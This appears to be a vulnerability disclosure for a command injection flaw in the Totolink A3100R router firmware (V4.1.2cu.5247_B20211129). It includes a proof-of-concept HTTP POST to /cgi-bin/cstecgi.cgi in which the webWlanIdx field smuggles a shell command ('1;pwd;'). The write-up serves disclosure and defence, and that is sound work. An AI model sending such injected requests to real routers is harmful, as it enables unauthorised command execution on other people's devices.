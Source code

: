 ## Totolink A3100R command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink A3100R
* Version: V4.1.2cu.5247_B20211129

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20220412/af5667441aa454891372a0823608aad1.rar

### Vulnerability details

Totolink A3100R V4.1.2cu.5247_B20211129 was found to contain a command injection vulnerability in the `setWebWlanIdx` function via the `webWlanIdx` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 132
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setWebWlanIdx",
    "webWlanIdx": "1;pwd;"
}
```

